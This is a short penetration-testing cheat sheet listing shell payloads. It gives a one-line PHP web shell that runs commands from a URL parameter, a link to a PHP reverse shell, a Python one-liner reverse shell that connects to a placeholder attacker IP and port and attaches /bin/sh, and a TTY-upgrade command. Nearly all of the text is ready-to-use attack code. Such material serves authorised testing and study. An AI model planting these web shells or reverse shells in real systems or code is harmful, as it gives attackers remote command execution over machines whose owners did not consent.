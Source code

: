 # Shell

## PHP

### Full shell

* https://github.com/pentestmonkey/php-reverse-shell

### Command shell

```<?php echo shell_exec($_GET['cmd']); ?>```

## Python

### Full shell 

Useful for OTRS and Web2py, those using Python.

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<YOURIP>",<YOURLISTENINGPORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Command shell

N/A

### TTY shell

From https://netsec.ws/?p=337

Commonly used:

`python -c 'import pty; pty.spawn("/bin/sh")'`

